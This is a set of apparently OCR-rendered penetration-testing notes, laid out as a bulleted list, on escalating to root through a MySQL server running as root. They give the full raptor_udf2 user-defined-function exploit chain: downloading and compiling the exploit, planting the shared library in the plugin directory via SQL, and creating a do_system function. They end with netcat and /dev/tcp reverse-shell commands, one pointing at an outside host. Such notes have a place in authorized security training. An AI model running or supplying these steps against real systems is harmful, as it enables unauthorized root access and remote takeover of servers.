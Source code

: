     -   **Ex : Mysql**

    -   Change mysql to run as root

        -   chown -R root:root /var/lib/mysql

        -   leafpad /etc/mysql/mariadb.conf.d/50-server.cnf 

        -   Change user=mysql to user=root and save the file

        -   service mysql restart

    -   Mysql running as root :

        -   With user defined function

        -   Download and compile the binary

            -   wget <http://0xdeadbeef.info/exploits/raptor_udf2.c>

            -   gcc -g -c raptor\_udf2.c

            -   gcc -g -shared -Wl,-soname,raptor\_udf2.so -o raptor\_udf2.so raptor\_udf2.o -lc

        -   Access the database service and select the database to use.

            -   mysql -u root -p

            -   use mysql;

        -   check the plugin directory path of mysql

            -   We need to find the plugin directory of mysql. We will store our custom library file to the plugin directory.

            -   show variables like \'%plugin\_dir%\';

        -   Copy/create the raptor\_udf2.so in the directory specified in the plugin\_dir variable.

            -   create table foo(line blob);

            -   insert into foo values(load\_file(\'/tmp/raptor\_udf2.so\'));

            -   select \* from foo into dumpfile '/usr/lib/raptor\_udf2.so'; \--\> plugin directory

        -   Create the User Defined Function.

            -   create function do\_system returns integer soname \'raptor\_udf2.so\';

            -   select \* from mysql.func;

        -   Test that the UDF works correctly.

            -   select do\_system('nc 127.0.0.1 9090 -e /bin/bash&');

            -   select do\_system ('bash -i \>& /dev/tcp/10.0.0.1/443\')

        -   Reference

            -   <https://redteamnation.com/mysql-user-defined-functions/>

            -   <https://www.exploit-db.com/exploits/1518>

            -   <https://recipeforroot.com/mysql-to-system-root/>
